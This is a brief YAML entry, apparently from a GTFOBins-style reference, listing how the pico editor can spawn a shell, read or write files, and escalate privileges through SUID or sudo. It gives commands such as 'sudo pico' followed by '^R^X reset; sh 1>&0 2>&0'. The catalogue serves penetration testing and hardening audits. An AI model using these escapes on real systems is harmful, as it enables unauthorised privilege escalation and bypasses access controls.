 functions:
  shell:
    - code: |
        pico
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        pico -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  limited-suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./pico -s /bin/sh
        /bin/sh
        ^T
  sudo:
    - code: |
        sudo pico
        ^R^X
        reset; sh 1>&0 2>&0
---
